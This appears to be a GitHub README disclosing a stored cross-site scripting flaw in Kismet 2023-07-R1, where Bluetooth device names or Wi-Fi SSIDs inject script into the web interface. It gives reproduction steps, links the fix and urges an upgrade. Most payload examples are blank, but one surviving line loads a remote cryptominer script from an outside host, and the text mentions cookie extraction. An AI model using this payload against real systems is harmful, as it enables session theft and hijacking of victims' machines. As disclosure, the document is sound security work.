





# Kismet_XSS_2023-07-R1

I discovered a minor XSS vulnerability in Kismet 2023-07-R1. Allows user to inject script from device names.

Bluetooth device names, and WIFI SSID can be set to arbitrary user input. 
 * WIFI SSID only gives you 32 characters to play with.
 * Bluetooth gives approx 248 bytes? https://stackoverflow.com/a/65577574

Reproduce:
1. run Kismet 2023-07-R1
2. set Bluetooth device name, or SSID to ``
3. script will execute once Kismet finds device.

Bluetooth Device name example:
-

WIFI SSID example:
-

Cookie can be extracted via: `` or ``

I don't think its super useful? But it's enough characters to load a remote script. eg: `<script src=//example.com/bitcoinminer.js>`

Fixed: https://github.com/kismetwireless/kismet/commit/9d0821fc90fc5fa3b0dcc9000da49bacdea433ea

Be sure to upgrade to 2023-07-R2!
